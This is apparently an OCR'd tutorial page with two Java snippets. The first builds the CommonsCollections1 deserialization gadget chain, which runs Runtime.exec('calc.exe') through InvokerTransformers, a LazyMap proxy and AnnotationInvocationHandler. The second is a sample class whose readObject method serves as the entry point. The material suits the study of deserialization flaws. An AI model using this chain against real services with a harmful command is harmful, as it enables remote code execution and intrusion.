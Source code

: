 ```java
import java.util.Map;

public class YsoCC1ChangeProxy {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class,
                        Class[].class }, new Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class,
                        Object[].class }, new Object[] { null, new
                        Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class
                },
                        new String[] { "calc.exe" }),
        };
        Transformer transformerChain = new
                ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        Class clazz =
                Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class,
                Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = new LazyMapInvocationHandler(outerMap);
        Map proxyMap = (Map)
                Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class},
                        handler);
        handler = (InvocationHandler)
                construct.newInstance(Retention.class, proxyMap);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(handler);
        oos.close();
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new
                ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

代码2

```java
// readObject为入口点
import java.io.IOException;
import java.io.Serializable;
import java.util.Map;

public class EntryPoint implements Serializable {
    protected Map map;
    public EntryPoint(Map map){
        this.map = map;
    }
    private void readObject(java.io.ObjectInputStream s) throws IOException, ClassNotFoundException {
        s.defaultReadObject();
        System.out.println(map.values());
    }
}
```